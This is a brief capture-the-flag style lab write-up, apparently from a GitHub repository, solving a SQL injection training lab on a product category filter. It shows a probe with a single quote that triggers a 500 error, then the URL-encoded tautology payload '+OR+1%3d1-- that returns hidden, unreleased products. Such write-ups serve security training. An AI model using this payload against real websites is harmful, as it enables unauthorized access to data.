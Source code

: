# Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## Description
 This lab contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:

SELECT * FROM products WHERE category = 'Gifts' AND released = 1

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased. 

### step 1 determine if the their is a vulnerability
GET /filter?category=Gifts' response 500 
#### analysis
The response shows that the page is vulnerable.

### step2 inject the payload
'+OR+1%3d1-- response = 200
#### analysis
Retrived all the products released and unreleased.
The payload 1=1 is always true
and the comments -- after the 1=1 is used to ignore the rest of the query
